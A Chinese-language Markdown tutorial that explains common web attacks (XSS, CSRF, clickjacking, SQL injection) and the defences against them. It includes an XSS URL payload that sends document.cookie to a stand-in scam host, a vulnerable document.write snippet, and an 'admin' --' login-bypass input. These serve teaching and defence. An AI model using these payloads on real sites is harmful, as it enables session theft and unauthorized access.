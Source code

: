 # 常见六大Web安全攻防解析

## XSS
跨站脚本攻击，通过注入运行非法js脚本或html标签对存在web安全漏洞的网站进行攻击的一种方式。XSS攻击有两种，非持久型和持久型。

### 非持久型

一般是通过给别人发送带有恶意参数的URL，当URL被打开时，这些参数会被浏览器解析运行从而达到窃取用户数据或其他攻击目的。

比如有一个url长这样

```
    http://www.example.com?arg=xxx
```

前端代码长这样
```js
    let arg = location.href.substring(location.href.indexOf('arg=') + 4);
    document.write(arg);
```

那攻击者可以这样修改参数进行攻击

```http://www.example.com?arg=<img src="xx" onerror="post('pianzi.com?cakemonster=' + escape(document.cookie))"/>```

特点：

- 需要用户点击恶意链接
- 通过一次请求（点击链接）完成攻击
- 难以发现和修复

防御：

- 尽量确保web页面的渲染数据来自服务器（不要用url传参这种）
- 尽量不使用document.write(), eval(), innerHTML这种可以执行字符串的方法
- 涉及dom渲染前对传入字符串参数进行转义操作

### 持久型

通过表单输入等方式输入并提交恶意脚本到服务器数据库，后前端页面从服务器获取该数据会渲染执行恶意脚本。

这种攻击方式直接以正常功能提交即可，比如文章评论。个人觉得危害比非持久型要大，只要需要获取该数据的客户端就有可能收到攻击。但这种攻击可以实现的条件也比较苛刻。需要前后端都没有做字符转义且前端拿到数据后直接dom渲染。

特点：
- 持久性，恶意脚本存储在数据库中
- 危害更大

防御：
- 字符转义
- CSP

    通过\<meta>标签或http头部Content-Security-Policy字段可以设置网站资源的来源限制，比如设置了script-src 'self'则只信任当前域名的脚本，其他来源脚本则浏览器会报错
- 给cookie设置httponly
    
    因为脚本攻击一般是为了获取用户的cookie，设置httponly后不能通过document.cookie获取cookie，从而达到防御目的。

## CSRF

攻击原理：

![CSRF的攻击原理](./imgs/CSRF的攻击原理.jpg "")

个人感觉csrf应该是配合xss攻击的，通过xss注入恶意脚本，把网站b的链接渲染到网页上（比如澳门在线小广告），误点带上用户的cookie做一些操作

防御：
- 不让骗子网站链接出现在被信任网站上（xss防御）
- 用户访问第三方网站不带cookie

    可以对 Cookie 设置 SameSite 属性。该属性表示 Cookie 不随着跨域请求发送
- 限制访问第三方网站

    通过检查http包头referer的值是不是这个页面，来判断是不是CSRF攻击
- 请求的时候带验证信息

    目前比较完善的解决方案是加入Anti-CSRF-Token。即发送请求时在HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器建立一个拦截器来验证这个token。服务器读取浏览器当前域cookie中这个token值，会进行校验该请求当中的token和cookie当中的token值是否都存在且相等，才认为这是合法的请求。否则认为这次请求是违法的，拒绝该次服务。
- get请求不修改信息

## 点击劫持

攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。（UI覆盖攻击？）

防御：
- 设置响应头X-FRAME-OPTIONS
    - DENY，表示页面不允许通过 iframe 的方式展示
    - SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
    - ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示

- 通过js防御
    ```html
        <head>
            <style id="click-jack">
                html {
                display: none !important;
                }
            </style>
        </head>
        <body>
            <script>
                if (self == top) {
                    var style = document.getElementById('click-jack')
                    document.body.removeChild(style)
                } else {
                    top.location = self.location
                }
            </script>
        </body>
    ```

## SQL注入

通过表单输入部分sql语句达到攻击手段。举个例子，现在有一个登陆表单，大概是这样：

```html
    <form action="/login" method="POST">
        <p>Username: <input type="text" name="username" /></p>
        <p>Password: <input type="password" name="password" /></p>
        <p><input type="submit" value="登陆" /></p>
    </form>
```

后端拿到username和password进行查表操作的sql语句

```sql
    SELECT * FROM user WHERE username='xxx' AND password='xxx';
```

然后黑客输入username为 ```admin' --``` 。sql语句变成了

```sql
    SELECT * FROM user WHERE username='admin' --' AND password='xxx';
```

防御：

- 检查输入字符，对特殊字符（sql语句相关 比如 - ）进行转义操作
- 不使用管理员进行数据库连接，为app单独设置数据有限的数据库连接
- 不直接动态拼接sql语句，使用参数化sql或者存储过程进行存取

## URL跳转漏洞

## OS命令注入攻击

